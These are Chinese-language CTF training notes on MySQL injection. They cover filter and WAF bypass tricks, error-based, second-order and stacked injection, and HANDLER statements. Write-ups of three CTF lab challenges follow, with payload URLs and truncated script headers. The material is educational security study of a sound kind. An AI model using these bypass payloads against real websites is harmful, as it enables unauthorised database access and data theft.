




前言
高大上的CTF培训开始了，第一天课程MYSQL注入绕过。笔记
特殊字符绕过
空格
1、URL编码跳过，通过构造特殊的编码绕过SQL注入检测，
例如：%0a,%09,%0b,%0c,%0d,%20等。%23=#
2、注释绕过：多行注释：/*/,内联注释:/!*/
3、某些地方可以用—、~等运算符与数字结合，或者用字符型如：select-1,2,’3’from…
4、括号绕过：select(password)from(user)
逗号
1、 from for: substr(‘’ from 1 for 2);在函数中可用
2、 join: union select * from (select 1)a join (select 2)b join (select 3)c;
3、 offset: limit 1 offset 0
单引号
1、hex编码：select table_name from information_schema.tables where table_schema = 0x7573657273;转成16进制执行的ASCII码
2、char编码: select from user where username = char(97,100,109,105,110);转成10进制ASCII码
3、宽字节注入：
条件:
(1)、使用了GBK编码。
(2)、使用了addslashes(),mysql_real_escape_string(),mysql_escape_string()这类的过滤函数。
原理：%d5’ -> %d5' -> 0xd50x5c’ -> 誠’
比较符
1、等于：
(1)、=号可以替换为 like、regexp、rlike(默认不匹配大小写，需在where 后添加关键字binary)
(2)、select ord(‘a’) between 0 and 97;
(3)、select (ord(substr(‘asd’ from 1 for 1)) in (97));
2、不等于：
!=、<>
select (ord(substr(‘asd’ from 1 for 1)) not in (97));
3、大小于：
(1)、greatest() 最大值比较
(2)、least() 最小值比较
select greatest(ord(‘a’),0) in (97);
绕过关键字
关键字、函数
(1)、双写绕过：unionunion select * ffromrom users。漏洞原因替换为空字符。
(2)、waf缺陷绕过: union/*/select,/!union//!select*/ 内联注释会被当做正常语句执行
(3)、等效函数绕过
ascii(),ord(),返回字符的ascii码。hex()返回函数的16进制。
sleep(1) 时延 benchmark(1000,md5(1));执行多少次。
concat() 链接字符串 concat_ws() make_set() 链接字符串，以第一个参数做为分隔符。
mid(),substr(),substring()字符串切片
利用SQL语法特性绕过
绕过information_schema(无列名)
Mysql开发团队在5.5.X版本后将innodb作为数据库的默认引擎。mysql>5.6.x库里增加了两个新表，innodb_index_stats和innodb_table_stats。
查库名
1 | select group_concat(database_name) from mysql.innodb_table_stats; |
查表名
1 | select group_concat(table_name) from mysql.innodb_table_stats where database_name=database(); |
不使用例名查数据
1 | select group_concat(`2`) from (select 1,2,3 union select * from user)x; |
报错注入
extractvalue()
extractvalue() :对XML文档进行查询的函数
语法：extractvalue(目标xml文档，xml路径)
第二个参数 xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。
1 | select username from security.user where id=1 and (extractvalue('anything',concat('/',(select database())))) |
updatexml()
语法updatexml(目标xml文档，xml路径，更新的内容)
1 | select username from security.user where id=1 and (updatexml('anything','/xx/xx','anything')) |
报错注入的小问题
有可能出现显示不全的问题，这时可以使用reverse()倒置函数。
进阶注入
寻找可能存在的注入点
(1)、利用 ‘ ‘) ‘)) “ “) “)) \ 对参数进行检测
(2)、利用 1’&&’1’=’0,2,2-1进行测试
测试被禁用的字符
(1)、!,#,/,,‘,”,)等等
1
select,union,union select,from,char,concat,concat_ws,meke_set,gorup_concat,database,\x00,\x0a等等
二次注入
二次注入是指已存储（数据库、文件）的用户输入被读取后再次进入到SQL查询语句中导致的注入。
假如有一个网站管理员的用户名为：admin 密码为：admin888 攻击者注册了一个账号 ： admin’– -密码为：123 因为账号当中有特殊字符，网站对于特殊字符进行了转义，一次注入在这就行不通了。 虽然账号被转义了，但是他在数据库当中任然是以 admin’– -的方式被储存的。 现在攻击者开始实施正真的攻击了，他开始对账号修改密码。 普通网站修改密码的过程为：先判断用户是否存在 确认用户以前的密码是否正确 获取要修 改的密码 修改密码成功。 在数据库中 – 表示注释的意思，后面的语句不会执行，而admin后面的那个单引号又与前面的 ‘ 闭合，而原本后面的那个单引号因为是在 – 之后，所以就被注释掉了，所以他修改的其实是 root 的密码
堆叠注入
堆叠注入原理
(1)、原理
原来的语句构造完成后加上分号，代表该语句结束。
(2)、条件
调用mysqli_multi_query()函数 (一般的mysqli_ query()函数仅支持一条查询）
常用语句
• show databases; 显示mysql中所有数据库的名称
• show tables from
• show columns from
• show create database
• show create table
• show engines; 显示安装以后可用的存储引擎和默认引擎
• show errors; 显示最后一个执行语句所产生的错误
• show procedure status
• show global variables; 显示所有全局变量
mysql语法利用-handler语句
• mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表 中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标 准中。
• handler tbl_name OPEN [ [AS] alias] 打开一个表作为句柄
• handler tbl_name READ { FIRST | NEXT} 读取表内容 • handler tbl_name CLOSE 关闭句柄
mysql语法利用-set语句
(1)设置全局变量
1 | set @a='admin888'; |
(2)在不修改配置文件的情况下，修改部分配置参数
1 | set sql_mode=PIPES_AS_CONCAT; 将|| 视为 字符串连接符 而非 '或' 运算符 |
mysql语法利用-预处理
1 | #定义预处理语句 |
课后练习
[GYCTF2020]Blacklist
拿到题先测试是否有注入点,在测试’ and 1=1时发现出错,看来是字符形注入

构造payloaod尝试：http://9104e2ff-8fe5-4faa-97ef-9fa52cd44622.node3.buuoj.cn/?inject=1%27%20union%20select%201,2,3%23
返回如下：
1 | return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject); |
过滤了部分关键字，但是没过滤符号，可以尝试堆叠注入。
1 | --先暴个当前的数据库 |
handler语法
1 | HANDLER tbl_name OPEN [ [AS] alias] |
如：通过handler语句查询users表的内容
1 | handler users open as VICCC; #指定数据表进行载入并将返回句柄重命名 |
[网鼎杯2018]Unfinish

直接显示一个登录界面。测试了(or = )万能密码。好像不管用。
于是拿出了dirsearch工具看看还有没有其它页面。
1 | python3 dirsearch.py -u http://2d563537-0a03-44bb-95f7-666d435b3f22.node3.buuoj.cn -e * -s 0.1 -t 2 |
这里设计了-s 为0.1秒扫描一次，太快了会报429。-t为两个线程。

扫出来几个有意思的PHP，config.php和register.php。
config.php没啥，register.php。好像有点东西。

联想到上午老师讲的课，感觉可能是二次注入
1 | #!/usr/bin/python |
[HarekazeCTF2019]Sqlite Voting
python暴破脚本
1 | # coding: utf-8 |